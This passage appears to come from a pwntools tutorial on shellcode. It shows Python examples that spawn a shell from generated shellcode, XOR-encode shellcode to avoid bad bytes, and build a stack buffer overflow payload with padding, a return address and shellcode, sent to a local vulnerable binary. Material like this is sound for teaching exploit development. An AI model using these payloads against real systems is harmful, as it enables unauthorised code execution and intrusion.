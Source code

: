### **Example 4: Running Shellcode in a Process**

```python
from pwn import *

context.arch = 'amd64'
shellcode = shellcraft.sh()

# Create a test program
elf = ELF.from_assembly(shellcode, vma=0x400000)
elf.save("shellcode_test")
elf.process().interactive()  # Should spawn a shell!
```


### **Advanced: Encoded Shellcode (Alphanumeric, XOR)**

#### **Example 5: XOR-Encoded Shellcode**

```python
from pwn import *

context.arch = 'i386'  # or 'amd64' depending on your target
shellcode = asm(shellcraft.sh())

# Method 1: Using the encoder module directly
encoder = encode(shellcode, avoid=b'\x00\x0a\x0d')  # Default is XOR encoding
print("Encoded shellcode:", enhex(encoder))

# Method 2: Explicit XOR encoding with key specification
encoder = xor(shellcode, 0x41)  # XOR with 0x41
print("XOR-encoded shellcode:", enhex(encoder))
```

### **Exploiting a Buffer Overflow with Shellcode**

```python
from pwn import *

context.arch = 'i386'

# Generate shellcode
shellcode = asm(shellcraft.sh())

# Assume a vulnerable binary with a 128-byte buffer
payload = b"A" * 128           # Padding
payload += p32(0xffffd000)     # Return address (stack)
payload += shellcode           # Shellcode

# Send payload to binary
p = process("./vulnerable_binary")
p.sendline(payload)
p.interactive()  # Enjoy your shell!
```
